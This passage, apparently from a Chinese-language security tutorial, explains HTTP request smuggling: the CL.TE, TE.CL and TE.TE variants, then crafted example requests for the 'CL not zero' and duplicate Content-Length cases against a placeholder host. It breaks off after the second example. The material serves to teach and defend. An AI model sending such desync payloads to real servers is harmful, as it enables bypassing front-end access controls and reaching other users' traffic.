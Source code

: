 > CL.TE：前端服务器使用 Content-Length 标头，而后端服务器使用 Transfer-Encoding 标头。  
> TE.CL：前端服务器使用 Transfer-Encoding 标头，而后端服务器使用 Content-Length 标头。  
> TE.TE：前端服务器和后端服务器都支持 Transfer-Encoding 标头，但是可以通过对标头进行某种方式的混淆来诱导其中一台服务器不对其进行处理。

### 0x04 HTTP 请求走私攻击的五种方式

#### CL 不为 0

所有不携带请求体的 HTTP 请求都有可能受此影响。这里用 GET 请求举例。  
前端代理服务器允许 GET 请求携带请求体；后端服务器不允许 GET 请求携带请求体，它会直接忽略掉 GET 请求中的`Content-Length`头，不进行处理。这就有可能导致请求走私。

**构造请求示例**：

```bash
GET / HTTP/1.1\r\n
Host: test.com\r\n
Content-Length: 44\r\n

GET / secret HTTP/1.1\r\n
Host: test.com\r\n
\r\n
```

> `\r\n`是换行的意思，windows 的换行是`\r\n`，unix 的是`\n`，mac 的是`\r`

**攻击流程**：  
前端服务器收到该请求，读取`Content-Length`，判断这是一个完整的请求。  
然后转发给后端服务器，后端服务器收到后，因为它不对`Content-Length`进行处理，由于`Pipeline`的存在，后端服务器就认为这是收到了两个请求，分别是：

第一个：

```bash
GET / HTTP/1.1\r\n
Host: test.com\r\n
```

第二个：

```bash
GET / secret HTTP/1.1\r\n
Host: test.com\r\n
```

所以造成了请求走私。

#### CL-CL

**RFC7230 规范**

> 在 RFC7230 的第 3.3.3 节中的第四条中，规定当服务器收到的请求中包含两个`Content-Length`，而且两者的值不同时，需要返回 400 错误。

有些服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回 400 错误。  
但是中间代理服务器按照第一个`Content-Length`的值对请求进行处理，而后端源站服务器按照第二个`Content-Length`的值进行处理。  
**构造请求示例**：

```bash
POST / HTTP/1.1\r\n
Host: test.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```
